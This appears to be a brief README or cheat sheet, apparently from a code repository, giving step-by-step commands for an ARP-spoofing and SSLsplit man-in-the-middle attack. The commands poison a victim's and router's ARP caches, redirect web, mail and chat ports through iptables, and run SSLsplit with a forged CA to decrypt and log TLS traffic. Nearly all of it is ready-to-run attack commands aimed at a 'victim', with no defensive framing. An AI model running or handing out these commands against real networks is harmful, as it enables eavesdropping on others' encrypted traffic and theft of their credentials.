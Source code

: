 ARP Spoof
=========
1. Tell the victim, I am the router  
`sudo arpspoof -t 35.12.214.227 35.12.214.1`  
2. Tell the router, I am the client.  
`sudo arpspoof -t 35.12.214.1 35.12.214.227`  

SSL Split Attack
================
1. Configure the iptables (make sure the victim can receive the packets)  
```
sudo sysctl -w net.ipv4.ip_forward=1  
sudo iptables -t nat -F  
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080  
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080  
```
2. Start the ssl split (You should pre-create directory in /tmp folder)  
`sudo ./sslsplit -D -l connections.log -j /tmp/sslsplit/ -S /tmp/sslsplit/logdir/ -k cakey.pem -c cacert.pem ssl 0.0.0.0 8443 tcp 0.0.0.0 8080`  

Reference:
==========
https://www.roe.ch/SSLsplit
https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/
